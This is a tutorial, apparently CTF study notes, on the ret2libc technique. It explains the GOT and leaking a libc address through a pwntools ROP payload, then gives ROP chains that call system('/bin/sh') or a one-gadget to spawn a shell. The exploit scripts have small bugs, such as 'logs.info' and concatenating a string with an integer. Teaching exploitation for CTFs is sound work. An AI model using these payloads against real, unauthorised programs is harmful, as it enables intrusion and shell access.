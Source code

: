 # ret2libc

ret2libc is a technique that involves calling functions from LIBC that aren't already loaded in the binary's Global Offset Table (GOT). This is a subset of stack-based exploits, aka. buffer overflows.

## Global Offset Table

The GOT is a table of functions that are loaded from a LIBC into a binary. This table is dynamically generated each time the binary is ran, and only consists of functions that are needed in the program to save space (this is determined at compliation)

The table looks like this:

| Address of function in binary         | Address of function in LIBC (accounting for LIBC base)    |
| ------------------------------------- | --------------------------------------------------------- |
| 0x0000000000400123                    | 0x7f12345678123456                                        |

When the binary calls a function, it will call the address in the left column. This will then redirect to the address in the right column.

## ret2libc part 1 (leaking libc base)

Due to ASLR, our LIBC base is randomized, so all functions that haven't been loaded into the GOT cannot be called. 

Fortunately, the internal offsets of the functions in LIBC aren't randomized. Thus, our objective is to leak the address of a function from GOT, and use it to determine LIBC base.

First we need the address of the function puts() (can be any other libc function that has been used at least once, and hence loaded into GOT) and the address of the GOT entry.

### Method 1: Automated (pwntools)

> This method is recommended for CTFs but not recommended for learning.

```py
from pwn import *

# --- setup ---
elf = context.binary = ELF('./binary')
rop = ROP('./binary')

# Address of main
main = elf.symbols["main"]

# Address of puts (in the binary)
puts = elf.symbols["puts"]

# Address of GOT entry of puts
puts_got = elf.got["puts"]

# Address of pop rdi gadget
pop_rdi = rop.rdi.address

# For the rest of the exploit, refer to Method 2: Manual
```

### Method 2: Manual

```bash
$ objdump -d ./binary | grep puts
0000000000400900 <puts@plt>:
    400900:       ff 25 22 17 20 00       jmpq   *0x201722(%rip)        # 602028 <puts@GLIBC_2.2.5>
    400906:       68 02 00 00 00          pushq  $0x2
    40090b:       e9 c0 ff ff ff          jmpq   4008d0 <.plt>
```

So, the address of puts is 0x400900, and the address of the GOT entry is 0x602028.

> We need the binary address of puts (or any other function that outputs to stdout) so we can call it to output our leak.

We also need the address of the main function, which can be found via `info functions` in gdb, or `afl` in r2.

```
...
0x0000000000400d77  setup
0x0000000000400df8  win
0x0000000000400e80  main
0x0000000000401040  __libc_csu_init
0x00000000004010b0  __libc_csu_fini
...
```

> We return to main after our leak, as we need to re-exploit the buffer overflow in the same process.

Now that we have these three values, we're gonna use them to leak the address of the libc puts(). Using that and the offset of puts() in libc (puts\_libc - puts\_offset), we can calculate the base address of libc in the binary.

To pass in puts@got as a parameter, we need to use the pop\_rdi gadget. `ROPgadget --binary ./binary | grep rdi`

```py
from pwn import *

p = process('./binary')
offset = 28+8
pop_rdi = 0x400913
puts = 0x400900
puts_got = 0x602028
main = 0x400e80
payload = flat(
		b'A'*offset,
		pop_rdi, puts_got,
		puts, 
		main,
)
p.sendline(payload)
puts_addr = u64(p.recvline().strip().ljust(8, b"\x00"))
logs.info("puts addr: " + puts_addr)
```

---

## ret2libc part 2 (calling shell)

Now, the binary should print out the address of puts() in libc, and we can:
1. Determine the libc version used (copy puts\_addr and search it with [https://libc.rip/](this), selecting the \_IO\_puts function.)
    - If the binary is 64-bit, the libc has to be 64-bit. Any 32-bit libcs can be eliminated from the results.
    - For the remaining libcs, if their offsets for puts() are the same, they're essentially the same.
    - Download the correct libc and place it in the challenge folder. To tell pwntools to use that libc, add this:
    ```py
    ...
    env = {"LD_PRELOAD":"libc6_2.27-3ubuntu1.4_amd64.so"}
    with process("./binary", env=env) as p:
    ...
    ```
		- This doesn't really work all the time, depending on your environment, so another option is to just run your script on remote. (You won't be able to `gdb.attach(p)` anymore though)
    - Take note also of the offset of the \_IO\_puts function indicated in the website.

2. Determine the base address of libc.
    - libc\_base = puts\_addr - puts\_offset

> If the challenge provides LIBC (`libc.so.6`), you don't need to search for the LIBC in the database.
> To get the offset of puts in LIBC, just do the following:
> `libc = ELF('./libc.so.6')`
> `puts_offset = libc.symbols["puts"]`

> Note that the final libc base address must end in 00. If that's not your case you might have leaked an incorrect LIBC.

### Call system('/bin/sh')

This is arguably easier than one gadget, as the only constraint to be fulfilled is $rdi = address of '/bin/sh'. (x64) The above libc database already gives us the offset of both system and a '/bin/sh' string in the LIBC, so all we need to do is to calculate their address from the LIBC base address. 

system = libc\_base + {offset}

binsh = libc\_base + {offset}

> Note: Take the offsets from the offset column, not the difference column!

After this, we can reuse the pop\_rdi gadget from earlier to pass in the address of '/bin/sh'. We might need an additional ret gadget to align the stack to 16 bytes. 

The ROP chain should look something like this:

pop rdi -> binsh -> ret -> system 

Enjoy the shell!

### One gadget

One-gadgets are gadgets in the libc that call `/bin/sh` directly (provided certain conditions are met). 

One-gadget is a more advanced technique, but it can be way faster if the conditions are already fulfilled.

However, these gadgets are different for every libc, so we need to determine the libc version first. One way to do this is to leak the offset of a loaded function (like puts()) in the libc, by leaking the value stored in the GOT entry of the function.

Run this on the libc to get the offsets of all avaliable one-gadgets: 

```bash
$ one_gadget ./libc6_2.27-3ubuntu1.4_amd64.so
```

Call each gadget in succession until you get a gadget whose conditions are fulfilled at the point of calling the ROP chain.
